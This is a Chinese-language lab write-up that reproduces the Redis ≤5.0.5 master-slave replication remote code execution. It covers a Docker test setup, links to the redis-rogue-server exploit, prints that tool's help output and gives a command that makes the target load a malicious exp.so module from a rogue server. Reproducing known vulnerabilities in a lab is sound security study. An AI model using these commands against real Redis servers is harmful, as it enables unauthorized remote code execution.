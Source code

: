 ```yaml
---
Title: Redis 小于5.0.5 主从复制远程命令执行漏洞
---
```


# Redis 小于5.0.5 主从复制远程命令执行漏洞

## 漏洞描述

在2019年7月7日结束的WCTF2019 Final上，LC/BC的成员Pavel Toporkov在分享会上介绍了一种关于redis新版本的RCE利用方式，比起以前的利用方式来说，这种利用方式更为通用，危害也更大

[Pavel Toporkov的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

## 影响版本

<a-checkbox checked>Redis <= 5.0.5</a-checkbox></br>

## 环境搭建

```shell
docker pull damonevking/redis5.0 
docker run -p 6379:6379 -d damonevking/redis5.0 redis-server
```

nmap扫描一下6379端口开放即为搭建成功

```shell
root@kali:~/桌面# docker pull damonevking/redis5.0 
Using default tag: latest

latest: Pulling from damonevking/redis5.0
fc7181108d40: Pull complete 
3e0ac67cad82: Pull complete 
6ee495cb7235: Pull complete 
9f7206d08b9d: Pull complete 
a8354ef8cccb: Pull complete 
53afb10d81c2: Pull complete 
Digest: sha256:adcf62f378efe1187d2f72c6f0ecdf86ab2173a9e1c3c9f4fe4bb89060f5362f
Status: Downloaded newer image for damonevking/redis5.0:latest
docker.io/damonevking/redis5.0:latest
root@kali:~/桌面# docker run -p 6379:6379 -d damonevking/redis5.0 redis-server
1275aa9c6c8f8ad0b6c8e58e609be6681acedec301b5593f7e8b0bd65f7fad12
root@kali:~/桌面# nmap 127.0.0.1 -p 6379
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-08 21:47 CST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000099s latency).

PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
```

## 漏洞复现

关于漏洞原理请查看[Pavel Toporkov的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

漏洞利用脚本: [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```shell
➜ ./redis-rogue-server.py -h
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

Usage: redis-rogue-server.py [options]

Options:
  -h, --help           show this help message and exit
  --rhost=REMOTE_HOST  target host
  --rport=REMOTE_PORT  target redis port, default 6379
  --lhost=LOCAL_HOST   rogue server ip
  --lport=LOCAL_PORT   rogue server listen port, default 21000
  --exp=EXP_FILE       Redis Module to load, default exp.so
  -v, --verbose        Show full data stream
Example
```

![image-20220309231916165](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220309231916165.png)

```shell
python3 redis-rogue-server.py --rhost 192.168.51.146 --lhost 192.168.51.146 --exp=exp.so
```

![image-20220309231926604](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220309231926604.png)